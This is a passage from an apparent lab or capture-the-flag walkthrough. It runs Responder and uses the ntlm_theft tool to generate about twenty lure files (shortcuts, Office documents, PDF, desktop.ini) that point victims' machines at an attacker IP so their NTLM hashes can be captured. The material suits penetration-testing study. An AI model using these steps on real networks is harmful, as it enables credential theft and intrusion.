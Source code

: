 ```shell
[+] Current Session Variables:
    Responder Machine Name     [WIN-VJP4COMY4M4]
    Responder Domain Name      [HBMF.LOCAL]
    Responder DCE-RPC Port     [49742]
[!] Error starting TCP server on port 80, check permissions or other servers running.

[+] Listening for events...

```

### Payloads

With `Responder ` running, next, we grab the `ntlm_theft` package off [Github](https://github.com/Greenwolf/ntlm_theft) and generate our payloads.

```shell
python3 ntlm_theft.py -g all -s 10.10.14.58 -f hack

Created: hack/hack.scf (BROWSE TO FOLDER)
Created: hack/hack-(url).url (BROWSE TO FOLDER)
Created: hack/hack-(icon).url (BROWSE TO FOLDER)
Created: hack/hack.lnk (BROWSE TO FOLDER)
Created: hack/hack.rtf (OPEN)
Created: hack/hack-(stylesheet).xml (OPEN)
Created: hack/hack-(fulldocx).xml (OPEN)
Created: hack/hack.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: hack/hack-(includepicture).docx (OPEN)
Created: hack/hack-(remotetemplate).docx (OPEN)
Created: hack/hack-(frameset).docx (OPEN)
Created: hack/hack-(externalcell).xlsx (OPEN)
Created: hack/hack.wax (OPEN)
Created: hack/hack.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: hack/hack.asx (OPEN)
Created: hack/hack.jnlp (OPEN)
Created: hack/hack.application (DOWNLOAD AND OPEN)
Created: hack/hack.pdf (OPEN AND ALLOW)
Created: hack/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: hack/Autorun.inf (BROWSE TO FOLDER)
Created: hack/desktop.ini (BROWSE TO FOLDER)
Generation Complete.

```

With the generation complete, we can see the list of payloads in the folder name `hack`.

```shell
cd hack && ls

 Autorun.inf                'hack-(frameset).docx'         hack.jnlp                     hack.rtf                 zoom-attack-instructions.txt
 desktop.ini                'hack-(fulldocx).xml'          hack.lnk                      hack.scf
 hack.application            hack.htm                      hack.m3u                     'hack-(stylesheet).xml'
 hack.asx                   'hack-(icon).url'              hack.pdf                     'hack-(url).url'
'hack-(externalcell).xlsx'  'hack-(includepicture).docx'  'hack-(remotetemplate).docx'   hack.wax

```
